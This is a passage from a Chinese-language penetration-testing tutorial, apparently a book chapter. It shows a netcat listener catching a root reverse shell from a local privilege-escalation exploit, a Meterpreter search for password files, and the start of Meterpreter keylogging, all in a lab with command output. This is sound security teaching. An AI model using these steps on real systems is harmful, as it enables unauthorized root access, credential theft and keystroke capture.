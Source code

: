 在运行我们的漏洞代码之前，我们需要在 Kali 系统上设置一个监听器，以捕获传入的 Netcat shell。

```
root@kali:~# **nc -lvp 12345**
listening on [any] 12345 ...
```

最后，我们准备运行我们编译的漏洞代码了。记得将之前找到的 udev netlink 套接字的 PID 作为参数传递。

```
georgia@ubuntu:~$ **./exploit 2468**
```

Linux 目标系统似乎没有任何反应，但如果你回到 Kali 上的 Netcat 监听器，我们已经建立了连接。`whoami`命令告诉我们现在我们拥有 root 权限，如示例 13-17 所示。

示例 13-17. 获取 root 权限

```
root@kali:~# **nc -lvp 12345**
listening on [any] 12345 ...
192.168.20.11: inverse host lookup failed: Unknown server error : Connection timed out
connect to [192.168.20.9] from (UNKNOWN) [192.168.20.11] 33191
**whoami**
root
```

我们已经成功地使用公开漏洞提升了权限。

## 本地信息收集

一旦我们获得了对系统的访问权限，就应该检查是否存在任何潜在的敏感信息，如存储明文密码或使用弱哈希算法的安装软件、专有数据或源代码、客户的信用卡信息，或者是 CEO 的电子邮件账户。这些都是可以在最终报告中呈现给客户的有用信息。此外，我们找到的任何信息可能有助于我们突破网络中其他系统的防线，从而获取更多的收益。

我们稍后会在本章中讨论如何从一个系统迁移到另一个系统，但现在让我们先看看几种在本地系统上查找信息的有趣方法。

### 查找文件

我们可以让 Meterpreter 搜索有趣的文件。例如，在示例 13-18 中，我告诉 Meterpreter 查找任何包含*password*的文件名。

示例 13-18. 使用 Meterpreter 查找文件

```
meterpreter > **search -f *password***
Found 8 results...
    c:\\WINDOWS\Help\password.chm (21891 bytes)
    c:\\xampp\passwords.txt (362 bytes)
    c:\\xampp\php\PEAR\Zend\Dojo\Form\Element\PasswordTextBox.php (1446 bytes)
    c:\\xampp\php\PEAR\Zend\Dojo\View\Helper\PasswordTextBox.php (1869 bytes)
    c:\\xampp\php\PEAR\Zend\Form\Element\Password.php (2383 bytes)
    c:\\xampp\php\PEAR\Zend\View\Helper\FormPassword.php (2942 bytes)
    c:\\xampp\phpMyAdmin\user_password.php (4622 bytes)
    c:\\xampp\phpMyAdmin\libraries\display_change_password.lib.php (3467 bytes)
```

### 键盘记录

另一种收集信息的方法是让登录的用户主动提供信息。Meterpreter 有一个键盘记录器，我们可以用它来监听按键。也许用户在我们 Meterpreter 会话活跃期间正在登录网站或网络上的其他系统。通过输入**`keyscan_start`**，在 Windows XP 的 Meterpreter 会话中启动键盘记录器，如图所示。
